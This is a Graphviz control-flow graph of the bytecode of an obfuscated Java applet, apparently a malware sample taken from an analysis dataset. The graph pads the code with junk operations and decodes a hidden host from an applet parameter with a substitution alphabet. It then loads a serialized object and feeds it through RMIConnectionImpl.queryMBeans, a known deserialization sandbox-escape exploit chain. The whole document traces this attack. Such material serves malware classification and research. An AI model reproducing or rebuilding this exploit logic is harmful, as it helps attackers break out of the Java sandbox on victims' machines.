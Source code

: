 digraph "" {
    "r0 := @this: a02cca0dac6"
    "push 0"
    "r0 := @this: a02cca0dac6"->"push 0";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "pop"
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "load.r r0"
    "pop"->"load.r r0";
    "push \"user\""
    "load.r r0"->"push \"user\"";
    "virtualinvoke <a02cca0dac6: java.lang.String getParameter(java.lang.String)>"
    "push \"user\""->"virtualinvoke <a02cca0dac6: java.lang.String getParameter(java.lang.String)>";
    "staticput <a02cca0dac6: java.lang.String host>"
    "virtualinvoke <a02cca0dac6: java.lang.String getParameter(java.lang.String)>"->"staticput <a02cca0dac6: java.lang.String host>";
    "staticget <a02cca0dac6: java.lang.String host>"
    "staticput <a02cca0dac6: java.lang.String host>"->"staticget <a02cca0dac6: java.lang.String host>";
    "push \"0X:kZRYfput?GbPL6irn8qUDO/A1FNxC_dzW=S3v-eIaQsmlV.T4Hg#h52yK&owE%jcB79JM\""
    "staticget <a02cca0dac6: java.lang.String host>"->"push \"0X:kZRYfput?GbPL6irn8qUDO/A1FNxC_dzW=S3v-eIaQsmlV.T4Hg#h52yK&owE%jcB79JM\"";
    "push \"0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ/.:_-?&=%#\""
    "push \"0X:kZRYfput?GbPL6irn8qUDO/A1FNxC_dzW=S3v-eIaQsmlV.T4Hg#h52yK&owE%jcB79JM\""->"push \"0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ/.:_-?&=%#\"";
    "staticinvoke <a02cca0dac6: java.lang.String __j(java.lang.String,java.lang.String,java.lang.String)>"
    "push \"0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ/.:_-?&=%#\""->"staticinvoke <a02cca0dac6: java.lang.String __j(java.lang.String,java.lang.String,java.lang.String)>";
    "staticinvoke <a02cca0dac6: java.lang.String __j(java.lang.String,java.lang.String,java.lang.String)>"->"staticput <a02cca0dac6: java.lang.String host>";
    "staticput <a02cca0dac6: java.lang.String host>"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "push \"8888\""
    "pop"->"push \"8888\"";
    "staticput <a02cca0dac6: java.lang.String s_port>"
    "push \"8888\""->"staticput <a02cca0dac6: java.lang.String s_port>";
    "staticput <a02cca0dac6: java.lang.String s_port>"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"staticget <a02cca0dac6: java.lang.String host>";
    "ifnonnull push null"
    "staticget <a02cca0dac6: java.lang.String host>"->"ifnonnull push null";
    "push \"127.0.0.1\""
    "ifnonnull push null"->"push \"127.0.0.1\"";
    "push \"127.0.0.1\""->"staticput <a02cca0dac6: java.lang.String host>";
    "staticput <a02cca0dac6: java.lang.String host>"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "push null"
    "pop"->"push null";
    "store.r r64"
    "push null"->"store.r r64";
    "store.r r64"->"load.r r0";
    "virtualinvoke <java.io.IOException: void printStackTrace()>"
    "load.r r0"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
    "goto new javax.management.remote.rmi.RMIJRMPServerImpl"
    "virtualinvoke <java.io.IOException: void printStackTrace()>"->"goto new javax.management.remote.rmi.RMIJRMPServerImpl";
    "new javax.management.remote.rmi.RMIJRMPServerImpl"
    "goto new javax.management.remote.rmi.RMIJRMPServerImpl"->"new javax.management.remote.rmi.RMIJRMPServerImpl";
    "store.r r0"
    "new javax.management.remote.rmi.RMIJRMPServerImpl"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"push null";
    "push null"->"push null";
    "push null"->"push null";
    "push null"->"store.r r0";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r r0"->"staticget <java.lang.System: java.io.PrintStream out>";
    "new java.lang.StringBuilder"
    "staticget <java.lang.System: java.io.PrintStream out>"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"IOException: \""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"IOException: \"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"IOException: \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.Object)>"
    "load.r r0"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.Object)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.Object)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "push null"->"store.r r0";
    "specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>"
    "push null"->"specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>";
    "specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"load.r r0";
    "new a6e4aca5279"
    "load.r r0"->"new a6e4aca5279";
    "new a6e4aca5279"->"dup1.r";
    "specialinvoke <a6e4aca5279: void <init>()>"
    "dup1.r"->"specialinvoke <a6e4aca5279: void <init>()>";
    "virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>"
    "specialinvoke <a6e4aca5279: void <init>()>"->"virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>";
    "virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "new javax.management.remote.rmi.RMIConnectionImpl"
    "pop"->"new javax.management.remote.rmi.RMIConnectionImpl";
    "new javax.management.remote.rmi.RMIConnectionImpl"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"javasucks\""
    "load.r r0"->"push \"javasucks\"";
    "push \"javasucks\""->"push null";
    "push null"->"push null";
    "push null"->"push null";
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"
    "push null"->"specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>";
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push null";
    "load.r r64"
    "push null"->"load.r r64";
    "load.r r64"->"push null";
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"
    "push null"->"virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>";
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"->"pop";
    "pop"->"goto return";
    "virtualinvoke <java.lang.ClassNotFoundException: void printStackTrace()>"
    "load.r r0"->"virtualinvoke <java.lang.ClassNotFoundException: void printStackTrace()>";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "staticget <a02cca0dac6: java.lang.String filename>"
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"staticget <a02cca0dac6: java.lang.String filename>";
    "virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>"
    "staticget <a02cca0dac6: java.lang.String filename>"->"virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>";
    "virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>"->"store.r r0";
    "store.r r0"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "new java.io.ObjectInputStream"
    "pop"->"new java.io.ObjectInputStream";
    "new java.io.ObjectInputStream"->"dup1.r";
    "dup1.r"->"load.r r0";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "load.r r0"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"
    "pop"->"virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>";
    "checkcast"
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"->"checkcast";
    "checkcast"->"store.r r64";
    "store.r r64"->"goto new javax.management.remote.rmi.RMIJRMPServerImpl";
}
